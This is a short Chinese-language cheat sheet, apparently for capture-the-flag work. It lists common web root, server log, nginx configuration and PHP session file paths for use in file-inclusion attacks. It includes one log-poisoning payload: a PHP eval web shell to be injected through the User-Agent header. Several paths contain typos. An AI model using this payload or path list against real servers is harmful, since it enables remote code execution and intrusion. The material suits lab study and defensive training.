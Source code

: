 网站位置
```
/www/wwwroot/站点/
/var/www/html/ 
/var/www/html/index.php
/var/www/html/public/
```
宝塔网站nginx,apache的访问和访问错误日志都在
```
/www/wwwlogs/站点名.log
```
^
Apache Web 服务器日志通常存储在这些目录中
```

/var/log/httpd/access.log
/var/log/apache/access.log 
/var/log/apache2/access.log
/var/log/apache2/error.log

/etc/httpd/logs/access.log

/etc/httpd/conf/httpd.conf
```

^
 MySQL 或 MariaDB 数据库服务器日志
```
/var/log/mysql
/var/log/mariadb
```
IIS服务器日志常见位置
```
WindowsServer2003 iis6
日志路径：C:Windows\System32\LogFilesWindows 
Server2008 R2、2012、2016、2019 iis7以上
日志路径：C:linetpub\logs\LogFiles
```
^
Nginx web 服务器日志通常存储在该目录中
```
/var/log/nginx
/var/log/nginx/access.log

在UA中插入<?php eval($_POST[1]); ?>
<?php phpinfo(); ?>
```
配置文件
```
配置文件存放目录：/etc/nginx
主配置文件：letc/nginx/conf/nginx.conf
管理脚本：/usr/lib64/systemd/system/nginx.service
模块：/usr/lisb64/nginx/modules
应用程序：/usr/sbin/nginx
程序默认存放位置：/usr/share/nginx/html
日志默认存放位置：/var/log/nginx
配置文件目录为：/usr/local/nginx/conf/nginx.conf  读这个文件可能有flag路径
```

^
php的session常见存储位置，里面为键值对 字符

其中
```
/var/lib/php5/sess_PHPSESSID
/var/lib/php7/sess_PHPSESSID
/var/lib/php/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSED
/var/lib/php/sessions/sess_PHPSESSID
```
PHPSESSID来源F12的cookie存储
如
```
/tmp/sess_99se2w33sddcs
```

tomcat常见访问日志位置
```
apache_tomcat/logs/localhost_access_log.日期.txt
```


